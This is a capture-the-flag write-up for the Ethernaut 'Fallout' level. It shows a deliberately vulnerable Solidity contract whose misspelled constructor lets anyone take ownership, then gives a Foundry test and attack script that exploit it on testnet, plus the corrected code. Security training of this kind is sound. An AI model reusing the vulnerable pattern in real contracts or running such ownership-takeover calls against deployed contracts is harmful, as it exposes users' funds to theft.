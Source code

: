 # Level 2: Fallout

**Level Page**: [See on Ethernaut](https://ethernaut.openzeppelin.com/level/0x676e57FdBbd8e5fE1A7A3f4Bb1296dAC880aa639)

**Description**:

Claim ownership of the contract below to complete this level.

Things that might help:

- Solidity Remix IDE

**Code**:

The smart contract to be exploited:

<details>
<summary>See Code</summary>

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

</details>

# Findings

### [H-1] Wrong constructor definition allow entrant to claim ownership easily

**Description**: The constructor definition `Fallout::Fal1out` is incorrectly typed (`'Fal-1-out'`)... Since is incorrectly typed, it is treated as a simple function, and since this function does not have any protection, any address can execute it and be the owner of the contract.

```javascript
    /* constructor */
@>  function Fal1out() public payable {
      owner = msg.sender;
      allocations[owner] = msg.value;
    }
```

**Impact**: Anyone can claim contract ownership.

**Proof of Code**:

See the complete code in `FalloutAttack.t.sol`.

```javascript
function testShouldStealOwnership() public {
  address attacker = vm.addr(1);
  uint256 attackerBalance = 1 wei;
  vm.deal(attacker, attackerBalance);

  assertEq(fallout.owner(), address(0));

  vm.prank(attacker);
  fallout.Fal1out();

  assertEq(fallout.owner(), attacker);
}
```

**Recommended Mitigation**: Fix the constructor name:

```diff
-function Fal1out() public payable {
+function Fallout() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
}
```

# Attack

**Description**: The attack followed the same strategy as the one tested in `FallbackAttack.t.sol`. This is a code snippet from `FallbackAttack.s.sol`:

```javascript
vm.startBroadcast(attacker);

// Attack
fallout.Fal1out();

vm.stopBroadcast();
```

**Instance used**: [0x407d461AD2233b6c2Be251185f32E65D23bba754](https://sepolia.etherscan.io/address/0x407d461AD2233b6c2Be251185f32E65D23bba754)

**Attack Transaction**: [see on etherscan](https://sepolia.etherscan.io/tx/0xa2476837c4d9ebbf1b5f9d197593665466a1b6f987c92c724de0e43665c3ee8d)

**Level Completed Transaction**: [see on etherscan](https://sepolia.etherscan.io/tx/0x000abfcd41ece4b2b3de24e233d852ba1dc543627a09e6fc7ddb3d8c606a8749)

# Getting started

## Build

```bash
make build
```

## Test

```bash
make test
```

## Attack (testnet)

```bash
make attack
```

## Submit level (testnet)

```bash
make submit
```

## Check if you completed the level (testnet)

`true` - You completed the level
`false` - You didn't complete the level

```bash
make check
```